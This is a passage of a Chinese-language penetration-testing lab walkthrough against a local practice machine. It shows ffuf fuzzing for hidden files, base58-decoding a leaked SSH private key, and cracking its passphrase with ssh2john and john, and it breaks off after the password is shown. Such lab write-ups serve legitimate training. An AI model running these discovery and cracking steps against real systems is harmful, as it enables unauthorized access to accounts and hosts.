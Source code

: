 ![image-20240828165007789](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281650847.png)

（5）猜测ssh私钥以.xxx的形式存在（参数-e指定后缀名列表，-fc过滤指定403状态返回码）

```py
ffuf -c -w /usr/share/wordlists/dirb/common.txt -u 'http://192.168.186.157/~secret/.FUZZ' -e .txt,.html -fc 403
```

![image-20240828165019506](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281650620.png)

（6）扫描无果，更换字典

```py
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u 'http://192.168.186.157/~secret/.FUZZ' -e .txt,.html -fc 403
```

![image-20240828165033115](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281650238.png)

（7）访问.mysecret.txt

![image-20240828165044273](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281650332.png)

（8）在线编码识别（base58编码）:https://www.dcode.fr/cipher-identifier

![image-20240828165054819](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281650913.png)

（9）base58解码得到ssh私钥

![image-20240828165105509](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281651570.png)

## 实施攻击

（1）将ssh密钥的内容保存为ssh.txt，利用ssh2john转化密钥（经过ssh2john转化之后密钥是可以被破解的）

```py
#在kali中找到ssh2john的路径（ssh2john：转化ssh密钥为john能识别的hash格式）
locate ssh2john
```

![image-20240828165113519](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281651581.png)

（2）将ssh.txt转化为passwd.txt（john可识别的hash格式）

```py
/usr/share/john/ssh2john.py ssh.txt > passwd.txt
```

![image-20240828165122083](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281651142.png)

（3）根据前面的提示，使用fasttrack字典解密ssh，得到密码：P@55w0rd!

```py
john --wordlist=/usr/share/wordlists/fasttrack.txt passwd.txt
John --show passwd.txt
```

